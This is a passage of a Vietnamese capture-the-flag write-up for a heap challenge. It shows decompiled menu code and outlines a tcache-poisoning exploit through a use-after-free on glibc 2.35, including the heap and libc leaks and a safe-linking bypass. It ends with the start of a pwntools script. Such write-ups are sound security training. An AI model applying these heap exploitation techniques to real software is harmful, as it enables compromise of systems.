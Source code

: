 ```c 
      }
      else
      {
        fflush(stdin);
        if ( (__int64)note_list[v10] >> 32 == (__int64)nptr >> 32 )
        {
          puts("HERETICS !!!");
          exit(0);
        }
        size_list[v10] -= read(0, note_list[v10], (unsigned int)nbytes);
      }
    }
```

- option4 : ta sẽ nhập 1 idx và in dữ liệu của chunk này ra 

```c 
else if ( atoi(nptr) == 4 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v3 = atoi(v20);
      v12 = v3;
      if ( v3 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x71u, "main");
      printf("  Data: ");
      puts((const char *)list_note[v12]);
```

### exploit

- phiên bản libc ở bài này là  2.35 -> ta không thể attack `hook` sau phiên bản 2.34 và sẽ có thêm 1 safe-linking nữa (xem cái này ở [here](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking)) và ta hoàn toàn có thể khai thác `tcache_poisioning` với chỉ 1 bug `uaf`  , điều kiện là trước hết ta cần leak địa chỉ heap và libc ra trước 
- ở đây có hàm win đọc flag nhưng có lẽ về cách khai thác thì vẫn tương tự nên thôi ta sẽ lấy shell luôn  đỡ phải leak exe_address 


- đầu tiên ta sẽ setup các chunk thế này

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
gdb.attach(p,gdbscript='''
           set follow-fork-mode parent
           brva 0x00000000000015EE
           brva 0x00000000000016CA
           brva 0x000000000000183F
           brva 0x0000000000001931

           ''')
def add(idx,Size):
    p.sendlineafter(b'Your choice: ',b'1')
    p.sendlineafter(b'Index: ',f'{idx}'.encode())
    p.sendlineafter(b'Size: ',f'{Size}'.encode())

```